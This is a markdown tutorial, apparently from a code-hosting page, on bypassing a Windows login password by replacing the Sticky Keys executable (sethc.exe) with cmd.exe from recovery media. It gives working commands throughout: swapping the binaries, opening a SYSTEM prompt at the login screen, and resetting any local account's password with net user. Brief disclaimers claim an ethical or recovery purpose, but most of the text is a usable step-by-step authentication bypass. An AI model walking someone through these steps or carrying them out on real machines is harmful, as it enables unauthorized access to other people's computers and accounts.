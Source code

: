 ✅ Sticky Keys Method – Bypass Windows Password

````markdown
# 🛠️ Bypass Windows Password Using Sticky Keys (`sethc.exe`)

This method leverages the Sticky Keys feature in Windows by replacing its executable with `cmd.exe`. Once replaced, pressing the **Shift key five times** at the login screen opens a **system-level Command Prompt**, allowing you to reset the password of any local user account.

> ⚠️ Use only on systems you are authorized to access.

---

## 🧰 What You Need

- A Windows installation or recovery USB/DVD
- Physical access to the target system

---

## 🚀 Steps to Bypass Password

### 1️⃣ Boot Into Recovery Environment

1. Insert Windows bootable media and restart the PC.
2. On the setup screen, press `Shift + F10` to open **Command Prompt**.

---

### 2️⃣ Backup Original Sticky Keys Executable

```cmd
copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc.bak
````

✔️ This saves a backup of the original Sticky Keys program.

---

### 3️⃣ Replace Sticky Keys With Command Prompt

```cmd
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe /y
```

✔️ Now, pressing `Shift` 5 times at the login screen will open CMD.

---

### 4️⃣ Restart and Access Command Prompt

1. Remove the bootable USB/DVD and restart the computer.
2. At the Windows login screen, press **Shift** 5 times.

✅ A **Command Prompt with SYSTEM privileges** should open.

---

### 5️⃣ Reset the Password

1. List admin accounts:

   ```cmd
   net localgroup administrators
   ```

2. Reset the password of your desired user:

   ```cmd
   net user <username> *
   ```

✅ Enter and confirm the new password when prompted.

---

### 6️⃣ Restore the Original `sethc.exe` (Optional but Recommended)

After logging in:

```cmd
copy C:\Windows\System32\sethc.bak C:\Windows\System32\sethc.exe /y
```

---

## ⚠️ Notes

* This method won't work if the system drive is encrypted (e.g., BitLocker).
* Must be run with physical access and from recovery environment.
* Ethical use only — never apply on unauthorized systems.

---

## 🛡️ Legal Disclaimer

This technique is for:

* Educational and ethical hacking purposes
* Recovery of your own or authorized systems

❌ Unauthorized use is strictly prohibited.

---

🔐 *Reset smart. Stay ethical.*

